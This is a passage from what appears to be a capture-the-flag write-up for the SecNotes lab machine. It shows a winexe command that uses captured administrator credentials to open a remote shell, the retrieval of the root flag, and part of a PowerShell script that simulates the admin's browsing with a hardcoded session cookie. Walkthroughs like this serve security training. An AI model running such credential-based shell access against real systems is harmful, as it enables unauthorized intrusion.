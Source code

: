 Better yet, I want a shell. With admin creds, I can now use `winexe` (or
`psexec.py`) to get a shell on the box:

    
    
    root@kali# winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
    Microsoft Windows [Version 10.0.17134.228]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\WINDOWS\system32>whoami
    whoami
    secnotes\administrator
    

From there, I’ll grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    7250cde1...
    

## Beyond Root

### Scenario

This box was centered around an admin named Tyler. Tyler is just starting a
revamp to his website, and he’s building it on the same server the current
site is running from. He’s hosting that site on a quite uncommon port because
he doesn’t want it to be found yet, and he’s set the SMB password for himself
to something quite long and difficult for security. So that he doesn’t forget
it, he’s saved it in his secure notes website.

### Tyler Interaction

To simulate the admin (Tyler) interaction, SecNotes uses a powershell script.
There a few bits the script has to achieve:

  * Maintain cookie for logged in session to site as Tyler
  * Get contact messages
  * Visit links
  * Sleep

The script is set to run on login as there’s a startup shortcut to launch the
script in tyler’s startup directory.

#### Full Script

Here’s the full Script:

    
    
    C:\Users\tyler\secnotes_contacts>type check-messages.ps1
    type check-messages.ps1
    $ip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
    $session = New-Object Microsoft.PowerShell.Commands.WebRequestSession;
    
    ($ip + "|127.0.0.1|secnotes.htb").split("|") |
    ForEach-Object{
            $cookie = New-Object System.Net.Cookie;
            $cookie.name = "PHPSESSID";
            $cookie.value = "cgg9uaoa794ibotbatm6h469v3";
            $cookie.domain = $_;
            $session.Cookies.Add($cookie);
    }
    